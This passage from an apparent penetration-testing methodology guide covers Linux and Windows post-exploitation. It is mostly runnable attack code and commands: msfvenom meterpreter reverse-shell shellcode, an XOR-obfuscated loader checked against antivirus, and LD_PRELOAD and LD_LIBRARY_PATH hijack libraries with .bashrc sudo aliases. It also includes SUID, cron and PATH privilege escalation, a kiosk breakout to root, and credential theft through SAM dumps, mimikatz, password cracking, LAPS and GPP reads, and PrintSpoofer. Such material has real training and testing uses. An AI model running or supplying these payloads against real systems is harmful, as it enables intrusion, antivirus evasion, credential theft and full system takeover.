msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=[listener-ip] LPORT=[listener-port] -f c -o shellcode.c -
#include <stdio.h> #include <stdlib.h> #include <unistd.h> unsigned char buf[] = "\x48\x31\xff\x6a\x09\x58..."; // paste msfvenom -f c output here int main (int argc, char **argv) { int (*ret)() = (int(*)())buf; ret(); } -
gcc -o hack.out hack.c -z execstack -
#include <stdio.h> #include <stdlib.h> #include <unistd.h> unsigned char buf[] = "..."; // raw shellcode bytes int main (int argc, char **argv) { char xor_key = 'J'; int payload_length = (int) sizeof(buf); for (int i=0; i < payload_length; i++) { printf("\\x%02X", buf[i] ^ xor_key); } return 0; } -
gcc -o encoder.out encoder.c ./encoder.out -
#include <stdio.h> #include <stdlib.h> #include <unistd.h> // XOR-obfuscated shellcode from encoder output unsigned char buf[] = "\x20\x73\x12\x45..."; // paste encoder output here int main (int argc, char **argv) { char xor_key = 'J'; int arraysize = (int) sizeof(buf); for (int i=0; i < arraysize-1; i++) { buf[i] = buf[i] ^ xor_key; } int (*ret)() = (int(*)())buf; ret(); } -
gcc -o hack_xor.out hack_xor.c -z execstack ./hack_xor.out -
sudo kesl-control --scan-file ./hack_xor.out sudo kesl-control -E --query | grep DetectName
13.5 Shared Libraries
Linux programs are distributed in ELF (Executable and Linkable Format) and share reusable code through shared library (.so) files — the Linux equivalent of Windows DLLs. When an application starts, the dynamic linker resolves library dependencies by searching a fixed sequence of locations. Placing a malicious library earlier in this search order causes the application to load attacker-controlled code instead of the legitimate library.
| Search Order | Location | Notes |
|---|---|---|
| 1 | Application's RPATH (hard-coded at compile time) | Cannot be overridden by environment variables |
| 2 | LD_LIBRARY_PATH environment variable | User-controllable; ignored by setuid binaries |
| 3 | Application's RUNPATH (set at link time) | Similar to RPATH but overridable by LD_LIBRARY_PATH |
| 4 | /etc/ld.so.conf directories | System-wide configuration |
| 5 | Default system dirs: /lib, /lib64, /usr/lib, /usr/lib64, etc. | Last resort; standard library locations |
Shared libraries follow the soname naming convention: lib<name>.so[.version]. The ldd utility reveals which libraries an application loads at runtime, making it the starting point for identifying hijack candidates.
Methodology
-
ldd /usr/bin/[target-binary] -
readelf -s --wide /lib/x86_64-linux-gnu/[library].so.0 | grep FUNC
13.6 LD_LIBRARY_PATH Hijacking
Setting the LD_LIBRARY_PATH environment variable directs the dynamic linker to check attacker-controlled directories before system library paths. An application that loads a library from this path will instead load the attacker's malicious version. The malicious library's constructor function runs automatically on load, regardless of what the application actually calls in the library.
Modern Linux distributions strip LD_LIBRARY_PATH from sudo contexts due to env_reset in /etc/sudoers. This can be bypassed by setting a sudo alias in .bashrc that explicitly passes the variable, since aliases run before environment stripping occurs.
Methodology
-
ldd /usr/bin/top -
readelf -s --wide /lib/x86_64-linux-gnu/[target-lib].so.0 \ | grep FUNC | grep [VERSION_TAG] \ | awk '{print "int",$8}' \ | sed 's/@@[VERSION_TAG]_[VERSION].0/;/g' -
#include <stdio.h> #include <stdlib.h> #include <unistd.h> static void runmahpayload() __attribute__((constructor)); // Stub symbols to satisfy dynamic linker requirements int symbol_one; int symbol_two; // ... (add all symbols from readelf output) void runmahpayload() { setuid(0); setgid(0); printf("HIJACK IN PROGRESS\n"); system("touch /tmp/haxso.txt"); } -
readelf -s --wide /lib/x86_64-linux-gnu/[target-lib].so.0 \ | grep FUNC | grep [VERSION_TAG] \ | awk '{print $8}' \ | sed 's/@@[VERSION_TAG]_[VERSION].0/;/g' > lib.map # Wrap in version block: # LIB_VERSION_1.0 { # symbol_one; # symbol_two; # }; -
gcc -Wall -fPIC -c -o hax.o hax.c gcc -shared -Wl,--version-script lib.map -o lib[target].so.0 hax.o -
export LD_LIBRARY_PATH=/home/[user]/ldlib/ cp libhax.so lib[target].so.0 top -
echo 'export LD_LIBRARY_PATH=/home/[user]/ldlib/' >> ~/.bashrc -
echo 'alias sudo="sudo LD_LIBRARY_PATH=/home/[user]/ldlib"' >> ~/.bashrc source ~/.bashrc sudo top -
ls -al /tmp/haxso.txt
13.7 LD_PRELOAD Exploitation (Function Hooking)
LD_PRELOAD forces the dynamic linker to load a specified library before all others. Functions defined in the preloaded library override identically-named functions from any library loaded afterward — a technique known as function hooking. Unlike the LD_LIBRARY_PATH approach, this allows intercepting specific function calls while still delegating to the original implementation via dlsym(RTLD_NEXT, ...).
Using fork() inside the hooked function allows the payload to execute in a child process while the parent returns the expected value to the calling application, keeping the program functional and avoiding user suspicion. As with LD_LIBRARY_PATH, sudo strips LD_PRELOAD by default, requiring the same alias bypass technique.
| Step | Purpose | Key Code Element |
|---|---|---|
| Identify hook target | Find a function called infrequently to avoid redundant shells | ltrace cp — observe geteuid() |
| Match function signature | Override must match the original prototype exactly | uid_t geteuid(void) |
| Resolve original function | Retain original behavior so application continues normally | dlsym(RTLD_NEXT, "geteuid") |
| Fork child process | Run payload without stalling the calling application | if (fork() == 0) { ... } |
| Mark shellcode page executable | -fPIC moves shellcode to .data; must mark PROT_EXEC | mprotect(..., PROT_READ|PROT_EXEC) |
| Return original value | Parent process calls original geteuid and returns its value | return (*old_geteuid)() |
Methodology
-
ltrace cp 2>&1 | grep -v "^---" -
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=[listener-ip] LPORT=[listener-port] -f c -
#define _GNU_SOURCE #include <sys/mman.h> #include <stdlib.h> #include <stdio.h> #include <dlfcn.h> #include <unistd.h> char buf[] = "\x48\x31\xff\x6a\x09\x58..."; // msfvenom shellcode here uid_t geteuid(void) { typeof(geteuid) *old_geteuid; old_geteuid = dlsym(RTLD_NEXT, "geteuid"); if (fork() == 0) { intptr_t pagesize = sysconf(_SC_PAGESIZE); if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)), pagesize, PROT_READ|PROT_EXEC)) { perror("mprotect"); return -1; } int (*ret)() = (int(*)())buf; ret(); } else { printf("HACK: returning from function...\n"); return (*old_geteuid)(); } return -2; } -
gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o evileuid.c gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl -
export LD_PRELOAD=/home/[user]/evil_geteuid.so cp /etc/passwd /tmp/testpasswd -
unset LD_PRELOAD -
echo 'alias sudo="sudo LD_PRELOAD=/home/[user]/evil_geteuid.so"' >> ~/.bashrc source ~/.bashrc -
sudo cp /etc/passwd /tmp/testpasswd -
# In Sliver listener or Metasploit handler — check uid # Sliver example: sliver ([session]) > getuid
13.8 Enumeration
Build a working picture of the user, host, network, processes, filesystem, and privilege boundaries before trying escalation payloads.
Methodology
-
id whoami hostname sudo -l uname -a cat /etc/os-release cat /etc/issue -
ip a ip route ss -tulnp ps auxf systemctl list-timers --all crontab -l 2>/dev/null cat /etc/crontab -
./linpeas.sh -a ./lse.sh -l 2 ./pspy64 -pf -i 1000
13.9 Users, Passwords, and Sensitive Files
Linux post-compromise enumeration should include users, home directories, shell history, service configs, web roots, backups, private keys, database credentials, and readable files owned by privileged accounts.
Methodology
-
cat /etc/passwd cat /etc/group awk -F: '$7 !~ /(false|nologin)$/ {print}' /etc/passwd ls -la /home /root 2>/dev/null -
find / -name id_rsa -o -name "*.pem" -o -name "*.kdbx" 2>/dev/null grep -RIE "password|passwd|secret|api[_-]?key|token" /etc /opt /var/www 2>/dev/null | head -n 50 cat ~/.bash_history ~/.mysql_history ~/.viminfo 2>/dev/null -
unshadow /etc/passwd /etc/shadow > linux.hashes john linux.hashes --wordlist=/usr/share/wordlists/rockyou.txt
13.10 SUID Binaries & sudo
Sudo rules and SUID binaries are among the most reliable Linux escalation paths. The critical question is whether the allowed binary can execute commands, write privileged files, load plugins, preserve environment variables, or call another binary by a relative path.
Methodology
-
sudo -l sudo -u root find . -exec /bin/sh \; -quit sudo vim -c ':set shell=/bin/sh|shell' sudo awk 'BEGIN {system("/bin/sh")}' sudo python3 -c 'import os; os.system("/bin/sh")' -
find / -perm -4000 -type f 2>/dev/null find / -perm -2000 -type f 2>/dev/null ls -la [suid-binary] strings [suid-binary] | head -
echo -e '#!/bin/sh\ncp /bin/bash /tmp/rbash; chmod +s /tmp/rbash' > /tmp/ls chmod +x /tmp/ls export PATH=/tmp:$PATH /path/to/suid-program /tmp/rbash -p -
sudo -l | grep -E "env_keep|LD_PRELOAD|LD_LIBRARY_PATH" cat > /tmp/preload.c <<'EOF' #include <unistd.h> #include <stdlib.h> void _init(){ setuid(0); setgid(0); system("/bin/bash"); } EOF gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /tmp/preload.c sudo LD_PRELOAD=/tmp/preload.so [allowed-binary]
13.11 Cron Jobs & PATH Hijacking
Automated tasks are escalation paths when a privileged user runs a script, relative command, or wildcard operation in a directory an unprivileged user can write to. Use process monitoring when cron timing is unknown.
Methodology
-
cat /etc/crontab ls -la /etc/cron.d /etc/cron.daily /etc/cron.hourly /etc/cron.monthly 2>/dev/null ls -la /var/spool/cron/crontabs 2>/dev/null systemctl list-timers --all ./pspy64 -pf -i 1000 -
ls -la /opt/backup.sh echo 'cp /bin/bash /tmp/rbash; chmod +s /tmp/rbash' >> /opt/backup.sh /tmp/rbash -p -
echo -e '#!/bin/sh\ncp /bin/bash /tmp/rbash; chmod +s /tmp/rbash' > /writable/tar chmod +x /writable/tar # Wait for the root-owned task to call tar from the writable path
13.12 File Capabilities
Capabilities split root privileges into discrete rights assigned to binaries. Dangerous examples include cap_setuid, cap_dac_read_search, and cap_sys_ptrace.
Methodology
-
getcap -r / 2>/dev/null -
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")' /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";' -
/usr/bin/tar cf /tmp/rootfiles.tar /root/.ssh/id_rsa /etc/shadow 2>/dev/null tar xf /tmp/rootfiles.tar -C /tmp
13.13 Dangerous Group Memberships
High-value insecure components include privileged SUID programs, special sudo permissions, kernel vulnerabilities, and service-specific escalation paths. Treat these as context-dependent findings that require version and permission checks.
Methodology
-
id # docker/lxd/lxc/disk/adm can expose root-level data or host control docker run --rm -it -v /:/mnt alpine chroot /mnt sh debugfs /dev/sda1 -
ps aux | grep -Ei "mysql|postgres|redis|root" mysql -u root -p -e 'SELECT @@version, @@plugin_dir, current_user();' -
uname -a cat /etc/os-release searchsploit "linux kernel [version] local privilege escalation" gcc exploit.c -o exploit ./exploit
14. Kiosk Breakouts
Interactive kiosks and thin clients run standard operating systems beneath a restrictive interface veneer, making them viable pivot points into back-end corporate networks. The attack methodology focuses on identifying and abusing native functionality — browsers, file dialogs, scripting utilities — rather than importing external tools. This module uses Porteus Kiosk as a Linux case study and closes with Windows-specific escape techniques.
14.1 Kiosk Enumeration
Because specialized tools are unavailable on locked-down kiosk systems, enumeration relies on "living off the land" — misusing built-in system utilities to widen access. Projects like LOLBAS (Windows) and GTFOBins (Linux) catalogue these binaries and are worth consulting throughout the engagement.
VNC access simulates physical presence at the kiosk. TigerVNC is preferred for full keyboard shortcut support, enabling the operator to test every available key combination against the restricted environment.
| Enumeration Stage | Technique | Goal |
|---|---|---|
| Initial UI exploration | Click all links, right-click, middle-click, B/C key combos | Identify what is and is not blocked |
| Keyboard shortcuts | Alt+Tab, Ctrl+Alt+*, Windows-key combos | Escape maximized window or switch tasks |
| Browser history | Click-and-hold back button | Recover previously visited URLs |
| URL bar exploration | Type keywords, attempt about: pages, file:// URIs | Probe filter rules and accessible protocols |
| Protocol fuzzing | Try chrome://, ftp://, mailto:, smb://, irc:// | Find an unfiltered URI that spawns a dialog |
Methodology
-
sudo apt install tigervnc-viewer xtigervncviewer [kiosk-ip] -
# If home page is file:///var/www/localhost/index.html, try: file:///var/www/localhost/ file:/// file:///etc/passwd -
about:config about:preferences about:blank -
irc://[hostname] smb://[hostname] ftp://[hostname] mailto:[email]
14.2 Kiosk Browser Enumeration
When browser menus are unavailable, focus shifts to the URL/address bar and URI scheme behavior. The irc:// protocol is particularly useful because it is rarely blocked and causes Firefox to present a "Launch Application" dialog — the first crack in the kiosk's defenses.
The "Launch Application" dialog doubles as a filesystem browser. Navigating to "Other Locations" then "Computer" exposes the full directory tree, enabling enumeration of installed binaries without a terminal emulator.
| Location | Purpose |
|---|---|
| /bin, /usr/bin | Core binaries; look for bash, busybox, xterm, env, dunstify, gtkdialog |
| /usr/share | Shared application data; may contain scripts or config files |
| /sbin, /usr/sbin | System administration binaries |
| /opt | Third-party software; check for Citrix ICA Client and similar |
| /home/[user] | Current user home; reveals username from folder name |
| /etc/passwd | Enumerate valid login users and their shells |
| /proc/version | Kernel version for exploit targeting |
Methodology
-
irc://[hostname] -
file:///etc/passwd -
file:///proc/version
14.3 Leveraging Firefox Profiles
The kiosk runs Firefox inside a restricted profile. Firefox can be launched from within itself by using the irc:// trigger and selecting /usr/bin/firefox as the handler application, passing a -P "profilename" argument to force the profile manager to open. Creating a fresh profile launches an unrestricted Firefox instance with full menus and developer tools enabled.
The key insight is that Firefox passes the URI as the first command-line argument to any chosen handler. Programs that reject unexpected arguments (like /bin/bash) fail silently, but Firefox itself accepts the URI as a URL and handles it gracefully.
| Firefox Command-Line Option | Effect |
|---|---|
-P "profilename" | Load named profile; opens profile manager if profile does not exist |
-no-remote | Allow multiple Firefox instances simultaneously |
| First positional argument | URL or URI to open on launch |
Methodology
-
# Firefox runs: /bin/bash irc://myhost # bash treats the URI as a script path and fails /bin/bash irc://myhost # /bin/bash: irc://myhost: No such file or directory -
irc://myhost -P "haxor"
14.4 Enumerating System Information
With an unrestricted Firefox instance, the file:/// URI provides read-only access to the entire filesystem. This enables structured enumeration of users, kernel version, running processes, SSH keys, and writable paths without any external tool.
Firefox's built-in Web Developer tools (accessible from the hamburger menu) extend capabilities further. The Scratchpad tool functions as a JavaScript editor that can also load and save arbitrary plain-text files to the local filesystem.
| File/Path | Information Gathered |
|---|---|
/etc/passwd | Valid login users, home directories, login shells |
/proc/version | Kernel version and build info |
/home/[user]/.ssh/ | Private SSH keys for lateral movement |
/home/[user]/.mozilla/firefox/ | Firefox profile folder name and contents |
/etc/cron* | Scheduled tasks and cron job files |
/etc/X11/xorg.conf.d/ | X server config; VT switching policy |
/etc/inittab | TTY console definitions and init runlevels |
Methodology
-
file:///etc/passwd file:///proc/version file:///home/[user]/.ssh/ file:///etc/cron.d/ file:///etc/cron.hourly/ -
# In Scratchpad, use File > Save to write a test file # Then browse: file:///home/[user]/mytest.txt to confirm
14.5 Achieving Command Execution via gtkdialog
/usr/bin/gtkdialog builds graphical interfaces from an XML-style markup language and can execute arbitrary shell commands via <action> tags. It accepts a script file with the -f parameter, making it usable with the irc:// launch technique when passed as irc://myhost -f /home/[user]/[script].
The URI argument is absorbed by gtkdialog as an environment variable name — effectively neutralizing the problematic first-argument issue that blocked simpler binaries. Any button action in the markup runs as a shell command under the kiosk user's context.
| gtkdialog Element | Purpose |
|---|---|
<window> | Main application window container |
<vbox> / <hbox> | Vertical / horizontal layout containers |
<frame> | Simple container / grouping box |
<text><label> | Static display text |
<entry> | Single-line text input; stores value in <variable> |
<edit> | Multi-line text area; can read from <input file> |
<button> | Clickable button that fires one or more <action> shell commands |
<variable> | Named variable embedded in an element; referenced as $VARNAME in actions |
refresh:VARNAME | Action that reloads the element bound to VARNAME from its input source |
Because angle brackets typed in the kiosk's browser are often substituted with right angle brackets, copy a left angle bracket from the page source of the kiosk's home page HTML and paste it into Scratchpad when authoring gtkdialog markup.
Methodology
-
file:///usr/bin/gtkdialog -
-
irc://myhost -f /home/[user]/mywindow -
file:///tmp/gtkoutput.txt
14.6 Simulating an Interactive Shell
gtkdialog supports <input file> sub-elements that populate display widgets from a file on disk, and refresh: actions that reload a widget's content after a command runs. Combining an <entry> for input, an <edit> for output, and a <button> that pipes the entry variable into a shell command produces a functional pseudo-terminal interface.
The pseudo-terminal stores command output in a temporary file and refreshes the display widget after each run, giving immediate visual feedback without requiring an actual terminal emulator.
14.6.1 Pseudo-Terminal gtkdialog Markup
CMDOUTPUT
/tmp/termout.txt
CMDTORUN
Methodology
-
irc://myhost -f /home/[user]/terminal.txt -
id whoami ps aux find / -perm -u=s -exec ls -al {} + -
find / -perm -u=s -exec ls -al {} + -
ps aux | grep root
14.7 Privilege Escalation on the Kiosk
The Openbox window manager runs as root and includes a --replace option that restarts the current X session. When run as the guest user it still reloads the root-owned session, which rebuilds certain files (such as the Firefox bookmark file) using privileged write access. A symlink attack redirects this privileged write to an arbitrary directory, providing a file-write-as-root primitive.
Once arbitrary file write is confirmed, a shell script is placed in /etc/cron.hourly/ (which does not require root file ownership) to set the SUID bit on a local copy of /bin/busybox. The SUID busybox then runs commands as root, enabling escalation to a full root gtkdialog terminal.
| Cron Directory | Root Ownership Required? | Notes |
|---|---|---|
/etc/cron.d/ | Yes | File must be owned by root — unusable via this technique |
/etc/cron.hourly/ | No | Executes at the top of each hour; guest-owned files accepted |
/etc/cron.daily/ | No | Daily execution; less useful for timely exploitation |
/etc/cron.weekly/ | No | Weekly execution |
/etc/cron.monthly/ | No | Monthly execution |
Methodology
-
find / -perm -u=s -exec ls -al {} + ps aux | grep root -
ls /home/[user]/.mozilla/firefox/ -
openbox --replace -
mv /home/[user]/.mozilla/firefox/[profile-folder] /home/[user]/.mozilla/firefox/old_prof -
ln -s /usr/bin /home/[user]/.mozilla/firefox/[profile-folder] -
ls -la /usr/bin/bookmarks.html -
echo "#!/bin/bash" > /etc/cron.hourly/bookmarks.html echo "chown root:root /home/[user]/busybox" >> /etc/cron.hourly/bookmarks.html echo "chmod +s /home/[user]/busybox" >> /etc/cron.hourly/bookmarks.html -
rm /home/[user]/.mozilla/firefox/[profile-folder] ln -s /etc/cron.hourly /home/[user]/.mozilla/firefox/[profile-folder] -
openbox --replace -
chmod +x /etc/cron.hourly/bookmarks.html -
cp /bin/busybox /home/[user]/busybox -
ls -la /home/[user]/busybox -
# Save as /home/[user]/runterminal.sh via Scratchpad: #!/bin/bash /usr/bin/gtkdialog -f /home/[user]/terminal.txt -
/home/[user]/busybox sh /home/[user]/runterminal.sh # In the new terminal: whoami
14.8 Getting a Root Terminal (TTY)
With root access, the kiosk's VT switching restriction can be removed by editing the Xorg configuration. Adding a TTY entry to /etc/inittab with auto-login as root, then redirecting VNC to that TTY, provides a full interactive root terminal session over the existing VNC connection without rebooting.
Scratchpad cannot write directly to privileged paths, so the workflow is: copy the target file to the home directory, adjust permissions to 777, edit in Scratchpad, copy back to the original location, restore original permissions.
Methodology
-
# Send Ctrl+Alt+F3 to switch to TTY3 xdotool key Ctrl+Alt+F3 # If keyboard shortcuts are intercepted by the kiosk, xdotool # sends them at the X11 level, bypassing application-layer blocks -
cp /etc/X11/xorg.conf.d/10-xorg.conf /home/[user]/xorg.txt chmod 777 /home/[user]/xorg.txt -
# Change: # Option "DontVTSwitch" "true" # To: # #Option "DontVTSwitch" "true" -
cp /home/[user]/xorg.txt /etc/X11/xorg.conf.d/10-xorg.conf chmod 644 /etc/X11/xorg.conf.d/10-xorg.conf -
cp /etc/inittab /home/[user]/inittab.txt chmod 777 /home/[user]/inittab.txt -
c3::respawn:/sbin/agetty --noclear --autologin root 38400 tty3 linux -
cp /home/[user]/inittab.txt /etc/inittab chmod 600 /etc/inittab -
/sbin/init q -
openbox --replace -
# Save as /home/[user]/getmeatty.sh via Scratchpad: #!/bin/bash killall x11vnc x11vnc -rawfb vt3 # Make executable, then run: chmod +x /home/[user]/getmeatty.sh /home/[user]/busybox sh /home/[user]/getmeatty.sh -
whoami id
14.9 Windows Kiosk Breakout Techniques
Windows kiosks are vulnerable to the same "misuse of intended functionality" philosophy. Internet Explorer and Windows Explorer are deeply integrated into many applications, and their extensive right-click context menus, file browser dialogs, and help systems are extremely difficult to fully lock down.
The primary attack surfaces are: environment variables in text input fields, UNC paths in file browser dialogs, shell: shortcuts, Windows search boxes, help dialog embedded links, print dialogs, and keyboard shortcuts. Any one of these can open a path to a file browser or command shell.
14.9.1 Windows Environment Variables
| Variable | Resolves To |
|---|---|
%APPDATA% | C:\Documents and Settings\[user]\Application Data |
%COMSPEC% | C:\Windows\System32\cmd.exe |
%PROGRAMFILES% | C:\Program Files |
%PROGRAMFILES(X86)% | C:\Program Files (x86) |
%SystemRoot% | C:\Windows |
%TEMP% / %TMP% | C:\Documents and Settings\[user]\Local Settings\Temp |
%USERPROFILE% | C:\Documents and Settings\[user] |
%WINDIR% | C:\Windows |
%ALLUSERSPROFILE% | C:\Documents and Settings\All Users |
%HOMEDRIVE% | C:\ |
14.9.2 Useful shell: Shortcuts
| Command | Action |
|---|---|
shell:System | Opens the system folder |
shell:Common Start Menu | Opens the Public Start Menu folder |
shell:Downloads | Opens the current user's Downloads folder |
shell:MyComputerFolder | Opens "This PC" showing all drives and devices |
14.9.3 High-Value Keyboard Shortcuts
| Shortcut | Effect |
|---|---|
| Ctrl+Alt+Del | Lock screen / Task Manager access |
| Ctrl+Shift+Esc | Open Task Manager directly |
| Alt+Tab | Task switcher — reveals other running applications |
| Win+R | Run dialog — direct command execution |
| Ctrl+P | Print dialog — access to file browser |
| F1 | Help dialog — embedded application links |
| Win+Pause | System properties |
Methodology
-
%APPDATA% %COMSPEC% %WINDIR%\System32\cmd.exe -
\\127.0.0.1\C$\Windows\System32\ \\127.0.0.1\C$\Windows\System32\cmd.exe -
shell:System shell:Downloads shell:Common Start Menu -
file:///C:/Windows/System32/ -
# Shortcut target to set: C:\Windows\System32\cmd.exe C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -
# Example: copy restricted powershell.exe under a different name copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe C:\Temp\explorer.exe C:\Temp\explorer.exe -
cmd.exe notepad.exe powershell.exe
15. Windows Credentials
15.1 SAM Database
Windows stores local user credentials in the Security Account Manager (SAM) database as NTLM password hashes derived from the MD4 algorithm. The SAM is located at C:\Windows\System32\config\SAM, but the SYSTEM process holds an exclusive lock on it — direct copy from a running system fails. The local administrator account (RID 500) is installed on every Windows system, and organizations commonly assign a single shared password to this account across multiple machines, making it a high-value target.
Every Windows account is identified by a Security Identifier (SID) in the format S-R-I-S-RID. The RID for the built-in Administrator account is always 500. Two methods exist to extract the SAM offline: creating a Volume Shadow Copy or reading from the registry hives HKLM\sam and HKLM\system. Both methods require the SYSTEM file alongside the SAM because the database is partially encrypted (RC4 or AES depending on Windows version), and the decryption key lives in the SYSTEM hive.
| Method | Command/Tool | Notes |
|---|---|---|
| Volume Shadow Copy (WMIC) | wmic shadowcopy call create Volume='C:\' | Works on Windows 10; vssadmin create requires server edition |
| Copy from shadow volume | copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam | Must run from cmd.exe, not PowerShell |
| Registry export | reg save HKLM\sam C:\path\sam | Requires administrator rights |
| Offline decryption | Creddump7 (python pwdump.py system sam) | Mimikatz or Creddump7 only tools that decrypt |
Methodology
-
wmic shadowcopy call create Volume='C:\' vssadmin list shadows -
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\Windows\Temp\sam copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\Windows\Temp\system -
reg save HKLM\sam C:\Windows\Temp\sam reg save HKLM\system C:\Windows\Temp\system -
cd creddump7 python pwdump.py /home/kali/system /home/kali/sam -
sliver ([session]) > mimikatz "token::elevate" "lsadump::sam" "exit"
15.2 Hardening the Local Administrator Account
Microsoft introduced Group Policy Preferences (GPP) in Windows Server 2008 to manage local administrator passwords centrally. GPP stored passwords in AES-256 encrypted XML files in the SYSVOL share — however, Microsoft published the private AES key on MSDN, breaking the encryption. MS14-025 removed the ability to create new GPP password entries, but existing XML files may still be present in the wild and are recoverable with Get-GPPPassword.
LAPS (Local Administrator Password Solution), released in 2015, is the current Microsoft-recommended approach. It stores randomly generated clear-text passwords in two new Active Directory computer object attributes: ms-mcs-AdmPwd (the clear-text password) and ms-mcs-AdmPwdExpirationTime. Read access to ms-mcs-AdmPwd is restricted by group membership and is the primary target for attackers who have compromised a help desk or systems administration account.
| Tool/Method | Purpose | Requirement |
|---|---|---|
Get-GPPPassword | Locate and decrypt GPP passwords from SYSVOL | Domain user read access to SYSVOL |
Get-LAPSComputers (LAPSToolkit) | Enumerate LAPS-managed machines and retrieve passwords | Must be a member of delegated group (e.g. LAPS Password Readers) |
Find-LAPSDelegatedGroups | Find which groups have permission to read LAPS passwords | Domain user |
Get-NetGroupMember (PowerView) | Enumerate members of LAPS delegated groups | Domain user |
| SharpLAPS (Armory) | Read LAPS password from Sliver session | Privileged domain user |
Methodology
-
Import-Module .\Get-GPPPassword.ps1 Get-GPPPassword -
Import-Module .\LAPSToolkit.ps1 Get-LAPSComputers -
Find-LAPSDelegatedGroups -
Get-NetGroupMember -GroupName "LAPS Password Readers" -
sliver ([session]) > execute-assembly /home/kali/tools/bins/csharp-files/SharpLAPS.exe --server [dc] --user [domain]\[user] --pass [password]
15.3 Access Token Theory
Windows creates an access token in the kernel upon user authentication. The token encodes the user's SID, group memberships, integrity level, and enabled privileges. Because tokens reside in kernel memory, they cannot be directly read or modified from user space. Windows defines four integrity levels — Low, Medium, High, and System — with processes at a given level unable to modify processes at a higher level.
Local administrators receive two tokens at logon: a default medium-integrity token and an elevated high-integrity token. User Account Control (UAC) links these two tokens and presents a consent prompt when elevation is requested. Privileges within the token are governed by two bitmasks: one for present privileges (fixed per logon session) and one for enabled/disabled state (dynamically toggled via AdjustTokenPrivileges).

| Integrity Level | Description | Typical Context |
|---|---|---|
| Low | Highly restricted | Sandboxed processes (e.g. web browser content) |
| Medium | Standard user rights | Normal user processes and default admin token |
| High | Elevated administrator | Processes run as administrator (UAC elevated) |
| System | Kernel-level access | SYSTEM services, kernel drivers |
| Token Type | Description |
|---|---|
| Primary token | Assigned to each process at creation; originates from the user's logon token |
| Impersonation token | Allows a thread to act on behalf of another user without their credentials |
| Impersonation Level | Capability |
|---|---|
| Anonymous | Server cannot identify the client |
| Identification | Server can identify but not impersonate |
| Impersonation | Server can impersonate client on local system |
| Delegation | Server can impersonate client across network hops |
Methodology
-
whoami /user whoami /priv whoami /groups -
# Run from standard prompt whoami /priv # Run again from elevated prompt (Run as Administrator) whoami /priv
15.4 Elevation with Impersonation (SeImpersonatePrivilege)
SeImpersonatePrivilege is assigned by default to the Network Service, Local Service, and default IIS application pool accounts. When code execution is obtained under one of these accounts (e.g. via a web application exploit), this privilege enables escalation to SYSTEM by forcing a privileged account to connect to an attacker-controlled named pipe. The Print Spooler technique (PrintSpoofer) forces the SYSTEM-running spooler service to authenticate to an attacker named pipe by triggering RpcRemoteFindFirstPrinterChangeNotification via SpoolSample.
The key Win32 APIs involved are CreateNamedPipe, ConnectNamedPipe, ImpersonateNamedPipeClient, DuplicateTokenEx, and CreateProcessWithTokenW. After impersonation, DuplicateTokenEx converts the impersonation token to a primary token that CreateProcessWithTokenW can use to spawn a SYSTEM process. The attack requires the path trick of appending a forward slash to the capture server name (appsrv01/test) so the spooler appends \pipe\spoolss to a path we control.
| API | Purpose in Attack |
|---|---|
CreateNamedPipe | Create the pipe server to receive the SYSTEM connection |
ConnectNamedPipe | Block and wait for the privileged process to connect |
ImpersonateNamedPipeClient | Assign the connecting process's token to current thread |
OpenThreadToken | Open the impersonated token from the current thread |
DuplicateTokenEx | Convert impersonation token to primary token |
CreateProcessWithTokenW | Spawn a new process (e.g. cmd.exe) under the duplicated SYSTEM token |
Alternative tools leveraging the same primitive include RoguePotato (Windows 10 1809+ and Server 2019) and the Beans technique (WinRM-based, Windows clients only). On older systems, Juicy Potato uses COM-based local man-in-the-middle authentication but is blocked on Windows 10 1809+.
Methodology
-
whoami /priv | findstr SeImpersonatePrivilege -
PrintSpoofer.exe -i -c cmd -
